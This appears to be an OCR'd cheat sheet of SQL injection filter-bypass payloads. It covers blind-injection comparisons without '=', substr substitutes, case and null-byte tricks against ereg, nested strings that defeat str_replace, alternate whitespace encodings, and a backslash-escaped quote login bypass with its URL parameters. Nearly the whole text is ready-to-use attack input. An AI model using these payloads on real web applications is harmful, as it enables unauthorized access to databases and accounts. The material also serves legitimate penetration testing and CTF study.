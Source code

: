 Blind SQL Injection Equal(=) Filltering

```php
substr('abc',1,1)like('a')
if(strcmp(substr('abc',1,1),'a'),0,1)
substr('abc',1,1)%20in('a')
```

<br />

substr Filtering

```php
right(left('abc',1),1)
id > 0x41444d4941 'ADMIN' > 'ADMIA'(hex)
```

<br />

ereg, eregi

```php
'admin' Filtering -> 'AdmIN' bypass
FRONT %00 INSERT -> 뒤에 문자 필터링 처리 안됨
```

<br />

replace, replaceAll, str_replace

```php
'admin' Filtering -> 'adadminmin' 'adadmimin' 'admadminin' 'admdmiadmdmiinin'
```

<br />

Numeric Character Filtering

```php
0 -> '!'='@' -> false
1 -> '!'='!' -> true
```

<br />

White Space Filtering (%20)

```
%20 -> %0a %0b %0c %0d %09
```

<br />

Single Quoter Filtering (%27)

```php
Use Double Quote in Single Quote
if '\' not Filtering
-> select TEST from TABLE where id='\' and pw=' or 1#
parameter : id=\&pw=%20or%201%23
```

<br />

